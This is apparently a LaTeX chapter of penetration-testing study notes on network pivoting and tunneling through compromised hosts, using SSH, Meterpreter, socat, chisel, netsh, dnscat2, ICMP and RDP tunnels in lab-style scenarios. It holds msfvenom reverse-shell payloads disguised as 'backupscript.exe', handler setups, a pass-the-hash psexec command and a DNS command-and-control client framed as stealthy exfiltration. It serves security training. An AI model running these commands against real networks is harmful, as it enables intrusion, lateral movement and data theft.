\chapter{Pivoting}
\section{Intrroduction}
{\bf Pivoting} is essentially the idea of moving to other
 networks through a compromised host to find more targets on different network
 segments.

 There are many different terms used to describe a compromised host that can be
 used to pivot to a previously unreachable network segment. Some of the most
 common are:
 \begin{itemize}
     \item  Pivot Host
     \item  Proxy
     \item  Foothold
     \item  Beach Head system
     \item  Jump Host
 \end{itemize}


Pivoting's primary use is to defeat segmentation (both physically and
virtually) to access an isolated network. {\bf Tunneling}, on the other hand, is a
subset of pivoting. Tunneling encapsulates network traffic into another
protocol and routes traffic through it. The key is {\bf obfuscation} to avoid
detection for as long as possible. Therefore protocols with enhanced security
measures such as HTTPS over TLS or SSH over other transport protocols are used.

{\bf Port forwarding} is a technique that allows to redirect a communication request
from one port to another. Port forwarding uses TCP as the primary communication
layer to provide interactive communication for the forwarded port. However,
different application layer protocols such as SSH or even
\href{https://en.wikipedia.org/wiki/SOCKS}{SOCKS} (non-application layer) can
be used to encapsulate the forwarded traffic. This can be effective in
bypassing firewalls and using existing services on compromised host to pivot to
other networks.

The reason SSH port forwarding is so popular is because SSH client-server
session provides most of the requirements for network traffic, so port
forwarding is a logical extension of the SSH functionality.

\begin{verbatim}
$PIP = $pivot_ip
$LIP = $attacker_ip
$LPORT 
$TIP = $target_id
$TPORT = $target_port
\end{verbatim}


\section{SSH Port Forwarding}
SSH port forwarding is a feature of SSH protocol that allows client and server
to forward additional network connections using base SSH session as a secure,
encrypted and compressed (for improved performance) tunnel.

SSH port forwarding is just a specific SSH-based implementation of a
bigger concept: port forwarding in general helps you get around rigid network
and firewall structures by allowing bi-directional specific network
connectivity via certain network ports. 

SSH port forwarding involves establishing an SSH tunnel between two or more
systems and then configuring the systems to transmit a specified type of
traffic through that connection.

\subsection{Local port forwarding}
Local port forwarding is used to make an external resource available on the
local network.  For example a SQL server only allowing localhost connexion


Local forwarding is used to forward a port from the client machine to the
server machine. Basically, the SSH client listens for connections on a
configured port, and when it receives a connection, it tunnels the connection
to an SSH server. The server connects to a configurated destination port,
possibly on a different machine than the SSH server.

\begin{verbatim}
ssh -L $L_PORT:localhost:R_PORT $LOGIN@$R_HOST

netstat -antp | grep $L_PORT
lsof -i | egrep '\<ssh\>'
lsof -i -n | egrep '\<ssh\>'

nmap -v -sV -p$L_PORT localhost
\end{verbatim}

{\emph Autossh} is a tool that can be used to create persistent SSH tunnels. The only
prerequisite is that you need to have public key authentication configured
between your systems unless you want to be prompted for a password every time
the connection dies and is re-established.

\subsection{Dynamic port forwarding}

Dynamic port forwarding, also called This is called \emph{SSH tunneling over SOCKS
proxy}, sets up a SOCKS proxy server. You can configure
applications to connect to the proxy and transmit all data through it. The most
common use for this is for private web browsing or to make your connection
seemingly originate from a different country or location.

\begin{figure}
  
\includegraphics[width=\linewidth]{misc/pivoting/images/dynamic_ssh.png}
  \caption{Dynamic port forwarding}
  \label{fig:dynamic_port_ssh}
\end{figure}


\begin{verbatim}
ssh -D $L_PORT $LOGIN@$R_HOST
\end{verbatim}

\href{https://github.com/haad/proxychains}{proxychains} ProxyChains is a UNIX
program, that hooks network-related libc functions in dynamically linked
programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or
HTTP proxies.

edit \verb+/etc/proxychains.conf+:
\begin{verbatim}
socks4 	127.0.0.1 $L_PORT
\end{verbatim}


Then it is possible to route traffic of application not allowing proxy usage
such as nmap metsaploit, xfreerdp
\begin{verbatim}
proxychains nmap -v -sn 172.16.5.1-200
proxychains msfconsole
proxychains xfreerdp /v:$TARGET /u:$LOGIN /p:$PASSWORD
\end{verbatim}

 One more important note to remember here is that we can only perform a
 \emph{full TCP connect} (\verb+sT+) scan over proxychains.

\subsection{Remote port forwarding}
Remote port forwarding is the exact opposite. An SSH tunnel is established, but
the remote system is able to access your local network.


Usefull  to get a reverse shell through a pivot tunnel.

see \verb+GatewayPorts+ config.

\begin{verbatim}
ssh -R $R_IP:$R_PORT:$L_IP:$L_PORT $LOGIN@$P_IP -vN
\end{verbatim}

if \verb+RIP+ (or \verb+0.0.0.0+) is omited will listen on all IP


\subsection{SSH Server-Side Config}
The \verb+AllowTcpForwarding+ option in the OpenSSH server configuration file
must be enabled on the server to allow port forwarding. By default, forwarding
is allowed. Possible values for this option are \verb+yes+ or \verb+all+ to
allow all TCP forwarding, \verb+no+ to prevent all TCP forwarding, \verb+local+
to allow local forwardings, and \verb+remote+ to allow remote forwardings.

Another option of interest is \verb+AllowStreamLocalForwarding+, which can be
used to forward Unix domain sockets. It allows the same values as
AllowTcpForwarding. The default is \verb+yes+.

The \verb+GatewayPorts+ configuration option also affects remote port
forwardings. Possible values were \verb+no+ (only local connections from server
host allowed; default), \verb+yes+ (anyone on the Internet can connect to
remote forwarded ports), and \verb+clientspecified+ (client can specify an IP address that can connect, anyone can if not specified).


\verb+PermitOpen+ can be used to specify the destinations to which port forwarding is allowed. If you only want to allow forwarding to certain IP addresses or hostnames, use this directive. 

\subsection{Low latency}

The only real problem that arises with SSH port forwarding is that there is
usually a bit of latency.  The problem becomes more apparent when doing
network-intensive activities, especially with port forwarding set up as a SOCKS proxy server.

The reason for the latency is because SSH is tunneling TCP over TCP. This is a
terribly inefficient way to transfer data and will result in slower network
speeds.

There is a program called \href{https://github.com/sshuttle/sshuttle}{sshuttle} that corrects the issue. It also remove the
need to configure proxychains.

Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host.

iTo use sshuttle, specify the option \verb+-r+ to connect to the remote machine
with a username and password. Then we include the network or IP we want to
route through the pivot host (for example the network 172.16.5.0/23).

With this command, sshuttle creates an entry in our iptables to redirect all
traffic to the 172.16.5.0/23 network through the pivot host.

\begin{verbatim}
sudo sshuttle -r $USER@RIP -x 172.16.5.0 -vv
\end{verbatim}

\section{Meterpreter Tunneling and Port Forwarding}

scenario :
\begin{itemize}
    \item attacker: 10.10.14.18
    \item pivot: (10.10.x.x, 172.16.5.129)
    \item target: 172.16.5.19
\end{itemize}


\subsection{Dynamic port forwarding}
With a meterpreter session on the pivot host

\begin{verbatim}
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
\end{verbatim}

Configuring MSF's SOCKS Proxy

\begin{verbatim}
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run
# confirm
jobs
\end{verbatim}

After initiating the SOCKS server,configure proxychains
(\verb+/etc/proxychains.conf+) to route traffic generated by other tools like
Nmap through the pivot.

Finally, tell socks proxy module to route all the traffic via
Meterpreter session with the \verb+post/multi/manage/autoroute+ module to add
routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

\begin{verbatim}
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
\end{verbatim}

It is also possible to add routes with autoroute by running autoroute from the
Meterpreter session.

\begin{verbatim}
meterpreter > run autoroute -s 172.16.5.0/23

# list active routes
meterpreter > run autoroute -p
\end{verbatim}

testing
\begin{verbatim}
 proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
\end{verbatim}


\subsection{Local port forwarding}
Request Meterpreter to forward all the packets received on this port via 
Meterpreter session to a remote host on the 172.16.5.0/23 network.

Creating Local TCP Relay: attacker host port 3300 to  target (172.16.5.19) 3389
port thu pivot host runing the meterpreter.

\begin{verbatim}
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
\end{verbatim}

validate 
\begin{verbatim}
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
\end{verbatim}

\subsection{Remote port forwarding}
Create a reverse port forward on existing shell from the previous scenario to
forwards all connections on port 1234 running on the pivot to attack host on local port 8081.

\begin{verbatim}
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
meterpreter > bg
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
sf6 exploit(multi/handler) > run

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

\end{verbatim}


\section{Socat pivoting}

\subsection{With reverse shell}

\begin{verbatim}
socat TCP4-LISTEN:$P_PORT,fork TCP4:$L_IP:$L_PORT
\end{verbatim}

\begin{verbatim}
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$P_IP -f exe -o
backupscript.exe LPORT=$P_PORT
\end{verbatim}

\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
msf6 exploit(multi/handler) > run
\end{verbatim}

\subsection{With bind shell}


\begin{verbatim}
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe
LPORT=$TPORT
\end{verbatim}


\begin{verbatim}
socat TCP4-LISTEN:$PPORT,fork TCP$TIP:$TPORT
\end{verbatim}



\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST $PIP
msf6 exploit(multi/handler) > set LPORT PPORT
msf6 exploit(multi/handler) > ru
\end{verbatim}

\section{SSH for Windows}

\href{https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html}{Plink},
short for PuTTY Link, is a Windows command-line SSH tool that comes as a part
of the PuTTY package when installed. Similar to SSH, Plink can also be used to
create dynamic port forwards and SOCKS proxies.

\begin{verbatim}
plink -D $LPORT $user@$PIP
\end{verbatim}

Another Windows-based tool called \href{https://www.proxifier.com/}{Proxifier}
can be used to start a SOCKS tunnel via the SSH session created. 


\section{Web Server Pivoting}


\href{https://github.com/klsecservices/rpivot}{Rpivot} is a reverse SOCKS proxy
tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a
corporate network to an external server and exposes the client's local port on
the server-side. 

Running server.py from the Attack Host
\begin{verbatim}
server.py --proxy-port $LPORT --server-port $SPORT --server-ip 0.0.0.0
\end{verbatim}

Running client.py from Pivot Target
\begin{verbatim}
client.py --server-ip $LIP --server-port $SPORT
\end{verbatim}


\begin{verbatim}
proxychains firefox-esr $TIP:$TPORT
\end{verbatim}

\section{Port Forwarding with Windows Netsh}

\href{https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts}{Netsh}
is a Windows command-line tool that can help with the network
configuration of a particular Windows system Firewall rule
\begin{verbatim}
# Allow inbound traffic flow on port 4444/TCP
netsh advfirewall firewall add rule 
    name="Allow L_PORT" dir=in action=allow protocol=TCP localport=L_PORT
\end{verbatim}

Port forward:
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=PPORT \
    connectaddress=$TIP connectport=$TPORT
# Verify
netsh.exe interface portproxy show v4tov4
\end{verbatim}

clean:
\begin{verbatim}
netsh advfirewall firewall delete rule 
    name="Allow 4444" protocol=TCP localport=4444
netsh interface portproxy show v4tov4
\end{verbatim}

netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8443

for incoming (nmap\ldots)
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=IP_P listenport=L_PORT \
    connectaddress=IP_T connectport=T_PORT
\end{verbatim}


\section{Port Forwarding with Linux iptables}

\begin{verbatim}
 iptables -t nat -A PREROUTING -p tcp --dport 4445 -j DNAT --to-destination target:445
\end{verbatim}
\subsection{ Tunnel as http proxy with ncat}

ncat can be setup as an http proxy which can be used similar to a socks proxy.
Just run the ncat proxy on the target machine, and update the local proxychains
config to use an http proxy.

Unfortunately, ncat is almost never going to be installed by default on a
target machine, unless someone has also installed nmap there.

\subsection{Target machine}
setup ncat listener
\begin{verbatim}
ncat -vv --listen 3128 --proxy-type http
\end{verbatim}

\subsection{attacker machine}
\begin{verbatim}
tail /etc/proxychains.conf -n 3
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 172.21.0.3  3128 # 172.21.0.3 is the IP of my ssh machine

proxychains nmap -sT -P0 -p8080,9001 172.20.0.2
\end{verbatim}



\section{Chisel pivoting}

\href{https://github.com/jpillora/chisel}{Chisel} is a TCP/UDP-based tunneling
tool that uses HTTP to transport data that is secured using SSH. Chisel can
create a client-server tunnel connection in a firewall restricted environment.

\url{https://ppn.snovvcrash.rocks/pentest/infrastructure/pivoting#chisel}
\url{https://ap3x.github.io/posts/pivoting-with-chisel/}

\subsection{Local port forwarding}


\subsubsection{Server on attacker}

for example in order to access postgre only on lacal host on port 5432

{\bf On attacker}:
\begin{verbatim}
/chisel server -p 9999 --reverse
\end{verbatim}

{\bf On pivot}:
\begin{verbatim}
chisel.exe client $A_IP:9999 R:5555:127.0.0.1:R:5432
\end{verbatim}


\subsection{SOCKS5 tunneling}
\subsubsection{Server on pivot}
might need to manage firewall (allow incoming connexions) on the pivot
{\bf On pivot}:
\begin{verbatim}
./chisel server -v -p 1234 --socks5
\end{verbatim}

{\bf On attacker}:
\begin{verbatim}
./chisel client -v $P_IP:1234 socks
\end{verbatim}

edit \verb+/etc/proxychains.conf+ to happen \verb+ socks5   127.0.0.1:1080+

\subsubsection{Server on attacker(Reverse pivot)}
{\bf on the attacker}

\begin{verbatim}
chisel server -p 8001 --reverse --socks5
\end{verbatim}

edit \verb+/etc/proxychains.conf+ to happen \verb+ socks5   127.0.0.1:1080+

After client connexion:
\begin{verbatim}
proxychains4 psexec.py -hashes 00000000000000000000000000000000:27dedb1dab4d8545c6e1c66fba077da0 Administrator@172.16.6.3
\end{verbatim}

{\bf on the pivot}

\begin{verbatim}
create a reverse proxy and open port 1080 on attacker
chisel client $A_IP:8001 R:socks
\end{verbatim}

\section{DNS tunneling with dnscat2}
\href{https://github.com/iagox86/dnscat2}{Dnscat2} is a tunneling tool that
uses DNS protocol to send data between two hosts. It uses an encrypted
Command-\&-Control (C\&C or C2) channel and sends data inside TXT records
within the DNS protocol. 

Usually, every active directory domain environment in
a corporate network will have its own DNS server, which will resolve hostnames
to IP addresses and route the traffic to external DNS servers participating in
the overarching DNS system. 

However, with dnscat2, the address resolution is requested from an external
server. When a local DNS server tries to resolve an address, data is
exfiltrated and sent over the network instead of a legitimate DNS request. a

Dnscat2 can be an {\bf extremely stealthy approach} to exfiltrate data while

evading firewall detections which strip the HTTPS connections and sniff the
traffic. 

\subsection{On attacker}
\begin{verbatim}
sudo ruby dnscat2.rb --dns host=$L_IP,port=53,domain=inlanefreight.local --no-cache
\end{verbatim}


it will provide us the secret key that must be provided to the dnscat2 client in
order to authenticate and encrypt the communication

\subsection{On pivot}
use
\href{https://github.com/lukebaggett/dnscat2-powershell}{dnscat2-powershell}, a
dnscat2 compatible PowerShell-based client that we can run from Windows
targets.

\begin{verbatim}
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver $L_IP -Domain inlanefreight.local \
    -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
\end{verbatim}

\section{ICMP tunneling with SOCKS}

ICMP tunneling encapsulates your traffic within ICMP packets containing echo
requests and responses. ICMP tunneling would only work when ping responses are
permitted within a firewalled network. When a host within a firewalled network
is allowed to ping an external server, it can encapsulate its traffic within
the ping echo request and send it to an external server. The external server
can validate this traffic and send an appropriate response, which is extremely
useful for data exfiltration and creating pivot tunnels to an external server.a

\href{https://github.com/utoni/ptunnel-ng}{ptunel-ng} is a tool that can be
used 


\subsection{On pivot}
\begin{verbatim}
sudo ./ptunnel-ng -r$P_IP -R22
\end{verbatim}



\subsection{On attacker}
\begin{verbatim}
 sudo ./ptunnel-ng -p$P_IP -l2222 -r$P_IP -R22
\end{verbatim}

\subsubsection{Tunneling an SSH connection through}

\begin{verbatim}
ssh -p2222 -l$P_LOGIN 127.0.0.1
\end{verbatim}

\subsubsection{Enabling Dynamic Port Forwarding over SSH}
\begin{verbatim}
ssh -D 9050 -p2222 -l$P_LOGIN 127.0.0.1
proxychains nmap -sV -sT 172.16.5.19 -p3389
\end{verbatim}

\section{RDP/SOCKS Tunneling with SocksOverRDP}


When limited to a Windows network (not able to use SSH for pivoting) it is
possible to use tools available for Windows operating systems. 
\href{https://github.com/nccgroup/SocksOverRDP}{SocksOverRDP} is a toom that
uses {\bf Dynamic Virtual Channels} (DVC) from the Remote Desktop Service
feature of Windows. DVC is responsible for tunneling packets over the RDP
connection. Some examples of usage of this feature would be clipboard data
transfer and audio sharing. However, this feature can also be used to tunnel
arbitrary packets over the network.

\href{https://www.proxifier.com/}{Proxifier} can be used as proxy server.

\begin{verbatim}
regsvr32.exe SocksOverRDP-Plugin.dll
\end{verbatim}

Now we can connect to 172.16.5.19 over RDP using mstsc.exe, and we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. 

We will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. We can then start SocksOverRDP-Server.exe with Admin privileges.
 
When we go back to our foothold target and check with Netstat, we should see our SOCKS listener started on 127.0.0.1:1080.

\begin{verbatim}
netstat -antb | findstr 1080
\end{verbatim}

After starting our listener, we can transfer Proxifier portable to the Windows
10 target (on the 10.129.x.x network), and configure it to forward all our
packets to 127.0.0.1:1080. Proxifier will route traffic through the given host
and port. 

With Proxifier configured and running, we can start mstsc.exe, and it will use
Proxifier to pivot all our traffic via 127.0.0.1:1080, which will tunnel it
over RDP to 172.16.5.19, which will then route it to 172.16.6.155 using
SocksOverRDP-server.exe.



\section{HTTP/SOCKS tunneling with ncat}

ncat can be setup as an http proxy which can be used similar to a socks proxy. Just run the ncat proxy on the target machine, and update the local proxychains config to use an http proxy.

Unfortunately, ncat is almost never going to be installed by default on a target machine, unless someone has also installed nmap there.

\subsubsection{Target machine - setup ncat listener}
\begin{verbatim}
ncat -vv --listen 3128 --proxy-type http # or socks5
\end{verbatim}




\subsubsection{attacker machine}
\begin{verbatim}
tail /etc/proxychains.conf -n 3
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 172.21.0.3  3128 # 172.21.0.3 is the IP of my ssh machine

proxychains nmap -sT -P0 -p8080,9001 172.20.0.2
\end{verbatim}


\section{Double Pivoting}

\subsection{With chisel}
Possible to n-pivot by extending the following principle
\url{https://ap3x.github.io/posts/pivoting-with-chisel/}

\begin{itemize}
        \item attacker : 10.10.16.11
        \item p1: 10.129.203.114 / 172.16.8.120
        \item p2: 172.16.8.3 / 172.16.9.3
        \item target: 172.16.9.25
\end{itemize}

\subsubsection{Step one}
\begin{itemize}
        \item attacker :  \verb+chisel server -p 4444 --reverse+
        \item pivot 1: 
            \verb+./chisel_1.7.7_linux_386 client 10.10.16.11:4444 R:1080:socks+
\end{itemize}


\subsubsection{Step two}
\begin{itemize}
    \item p1: \verb+./chisel_1.7.7_linux_386 server -p 5555 --reverse+
    \item p2: 
        \verb+\chisel_1.7.7_windows_amd64.exe client 172.16.8.120:5555  R:2080:socks+
\end{itemize}

\subsubsection{Step three}
edit \verb+/etc/proxychains.conf+
\begin{verbatim}
socks5 	127.0.0.1 1080
socks5 	127.0.0.1 2080
\end{verbatim}

then:
\verb+proxychains ssh x@172.16.9.25+


\subsection{With metasploit}
Same scenario as before. P1 and P2 will reverse with meterpreter
\begin{verbatim}
# for P1
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.16.11 LPORT=4444 -f elf > shell.elf
#for P2

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 -f exe -o dc_shell2.exe LPORT=1234
\end{verbatim}


 \begin{verbatim}
 use exploit/multi/handler
 set payload linux/x86/meterpreter/reverse_tcp
 set lhost 10.10.16.11
 set LPORT 4444
 exploit

 (Meterpreter 1)(/root) > portfwd add -R -l 8443 -p 1234 -L 10.10.16.11
 [*] Local TCP relay created: 10.10.14.15:8443 <-> :1234
 (Meterpreter 1)(/root) > bg

 set payload windows/x64/meterpreter/reverse_tcp
 set lhost 0.0.0.0
 set LPORT 8443
 exploit


 (Meterpreter 2)(C:\) > run autoroute -s 172.16.9.0/23
 (Meterpreter 2)(C:\) > background
 route print

 use auxiliary/server/socks_proxy
 set srvport 9050
 set version 4a
 run
 \end{verbatim}
Edit the \verb+/etc/proxychains.conf+ file to use port \verb+9050+

\verb+proxychains nmap -sT -p 22 172.16.9.25+

\subsection{double pivoting using ssh}
\begin{verbatim}
# Pivot 1 using proxychains
ssh -D 1080 user@IP_Network1

# Configure /etc/proxychains to set port 1080
# Pivot 2 using proxychains
proxychains ssh -D 1081 user@IP_Network2

# Configure /etc/proxychains to set port 1081

proxychains nmap...
\end{verbatim}

\subsection{Tunneling with Chisel and SSF}

\url{https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html}

\section{links}

\begin{itemize}
    \item \url{https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md}
    \item \url{https://hackmag.com/security/windows-pivoting/}
    \item \url{https://salmonsec.com/cheatsheet/network_pivoting}
    \item \url{https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019}
    \item \url{https://miloserdov.org/?p=2973}
    \item \url{https://hackmag.com/security/windows-pivoting/}
    \item \url{https://salmonsec.com/cheatsheet/network_pivoting}
    \item \url{https://archive.ph/LnvIQ#selection-2127.0-2127.46}
    \item \url{https://artkond.com/2017/03/23/pivoting-guide/}
\end{itemize}
